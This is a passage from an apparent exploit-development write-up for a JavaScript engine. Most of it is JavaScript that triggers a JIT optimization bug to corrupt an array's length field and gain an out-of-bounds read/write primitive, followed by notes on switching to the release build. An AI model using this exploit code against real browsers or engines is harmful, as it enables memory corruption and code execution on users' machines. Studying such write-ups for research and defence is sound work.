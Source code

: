 ```js
}
```

We can now implement our idea. Since the code had started to get a
little more complex, I also started to add in some small test cases
that will help me figure out if things were going fine or wrong.

```js
let oob_rw_buffer = undefined;

function trigger(minusZero, isstring) {
	// The arrays we shall target
	let a = [1.1, 1.1, 1.1, 1.1, 1.1, 1.1];
	let b = [1.1, 1.2, 1.3, 1.4, 1.5];

	// Trigger the actual bug
	let aux_a = { aux_z : 1.2 };
	aux_a.aux_z = _auxiliary_(minusZero, isstring);
	let i = aux_a.aux_z + 0;	// Real: 1, Feedback type: Range(0, 0)

	// Move over to the length field for `b`
	i *= 16;			// feedback: 0

	// Change the length to 1024 * 1024
	a[i] = (1024*1024).smi2f();

	// Expose OOB RW buffer to outside world, for stage 1
	oob_rw_buffer = b;

	return a[i + 1];
}

if (trigger(false, false) != 1.1) {
	throw "[FAIL] Unexpected return value in unoptimized trigger";
}
	%OptimizeFunctionOnNextCall(trigger);
if (trigger(false, true) != 1.1) {
	throw "[FAIL] Unexpected return value in first-level optimized trigger";
}
	%OptimizeFunctionOnNextCall(trigger);
if (trigger(true) == undefined) {
	throw "[FAIL] Unable to trigger bug"
}
if ( oob_rw_buffer.length < 1024 ) {
	throw "[FAIL] Triggered bug, but didn't update length of OOB RW buffer";
}
```

It was at this point that I noticed that from this point forward, I
would, for the most part, be unable to use the debug build. The reason
for this is that performing an OOB RW using `oob_rw_buffer` caused a
dynamic debug-time check. Thus, I switched over to using the release
build from this point forward. I did temporarily switch back to the
debug build from time to time, in order to better obtain offsets for
exploitation, but otherwise, I relied almost entirely on the release
build.
